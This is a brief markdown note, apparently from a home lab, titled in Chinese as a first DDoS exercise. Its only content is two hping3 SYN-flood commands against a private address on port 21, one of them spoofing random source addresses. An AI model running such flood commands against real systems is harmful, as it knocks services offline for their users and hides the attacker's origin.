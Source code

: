 
### 這是我第一次的DDos實作。

<code>
    hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.43.129
    hping3 -V  -c 100000 -d 100 -S -p 21 --flood --rand-source 192.168.43.129
</code>code>
